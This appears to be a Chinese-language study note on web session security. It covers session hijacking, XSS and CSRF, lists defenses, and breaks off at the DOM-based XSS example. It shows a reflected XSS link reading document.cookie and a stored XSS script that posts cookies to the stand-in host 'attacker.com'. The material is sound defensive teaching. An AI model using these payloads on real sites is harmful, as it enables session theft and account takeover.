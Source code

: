 # **[会话技术]()**

## **[一、       会话安全性]()**

### **[1、           会话劫持和防御]()**

#### **会话劫持（Session Hijacking）**

会话劫持指的是攻击者通过窃取用户会话标识（如Session ID），以冒充合法用户进行未授权的操作。常见的会话劫持攻击手段有：

* **Session Fixation（会话固定攻击）：** 攻击者预先设定一个合法的Session ID并诱骗用户使用这个ID，随后攻击者通过复用这个Session ID劫持用户的会话。
* **Cross-Site Scripting (XSS)：** 攻击者通过植入恶意脚本，利用受害者的浏览器泄露会话标识。
* **恶意代码注入（Malware Injection）：** 通过恶意软件直接窃取用户的会话信息。
* **Cross-Site Request Forgery (CSRF)：** 攻击者通过伪造请求，利用用户已经认证的会话在服务器上执行未授权的操作。

#### **防御措施**

针对会话劫持，常见的防御措施包括以下几个方面：

* **使用HTTPS加密通信：** 所有涉及用户认证和敏感信息传输的通信必须通过HTTPS，以避免Session ID在网络中明文传输。
* **设置HttpOnly和Secure Cookie属性：** HttpOnly：防止客户端脚本（如JavaScript）读取cookie，避免通过XSS攻击窃取Session ID。Secure：确保cookie只能通过加密的HTTPS通道传输。
* **会话过期和会话重新生成：** 设置会话的有效期，确保长时间未活动的会话自动过期。在用户登录成功或执行高敏感操作时，重新生成新的Session ID，防止Session Fixation攻击。
* **启用CSRF Token：** 在表单提交和敏感操作请求中加入CSRF Token，确保请求是由合法用户发起，防御CSRF攻击。
* **检测异常的会话行为：** 使用机器学习或规则检测，监控会话中的异常行为，如IP地址的突然变化、会话的突然激增等，可以有效识别和阻止会话劫持。
* **限制会话生命周期和会话范围：** 限制会话的有效时间及绑定特定的客户端信息（如IP地址、浏览器指纹），当环境发生变化时强制用户重新认证。
* **使用双重验证（2FA）：** 即使Session ID被窃取，攻击者仍然需要通过二次身份验证（如短信验证码）才能访问用户的资源，从而增强安全性。
* **定期清理会话数据：** 定期清理过期的会话数据，减少可能被利用的潜在会话标识。

### **[2、           跨站脚本攻击（XSS）和防御]()**

跨站脚本攻击（XSS，Cross-Site Scripting）是一种常见的Web安全漏洞，攻击者通过在网站中注入恶意脚本，使其在其他用户的浏览器中执行，从而窃取敏感信息、劫持用户会话、篡改页面内容或执行恶意操作。XSS的主要类型及防御措施如下：

#### **XSS的类型**

* **反射型 XSS（Reflected XSS）：** 攻击者将恶意脚本嵌入到URL参数中，当受害者点击该链接时，服务器直接将这些脚本返回到用户的浏览器中执行。
  场景：用户点击了包含恶意脚本的链接后，浏览器立即执行了脚本，攻击者可以窃取用户的敏感信息。![1727606360108](images/会话技术作业/1727606360108.png)
  会话劫持和防御图例
  html示例：攻击者构造恶意链接

```
http://example.com/search?q=alert(document.cookie)
```

* **存储型 XSS（Stored XSS）：** 攻击者将恶意脚本存储在服务器的数据库中，其他用户在访问受感染的页面时，这些脚本会被自动加载和执行。
  场景：攻击者将恶意脚本存入论坛、评论区等，其他访问这些页面的用户会在不知情的情况下执行这些恶意代码。
  示例：攻击者在论坛发帖
  
  ```
  <script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://attacker.com', true); xhr.send(document.cookie); </script>
  ```
* **DOM型 XSS（DOM-based XSS）：** 攻击者通过操控浏览器的DOM对象，使浏览器在本地解析时执行恶意代码。这种攻击发生在客户端，不依赖服务器的响应。
  场景：JavaScript直接操作DOM，生成并执行了不安全的脚本。
  示例：不安全的DOM操作
  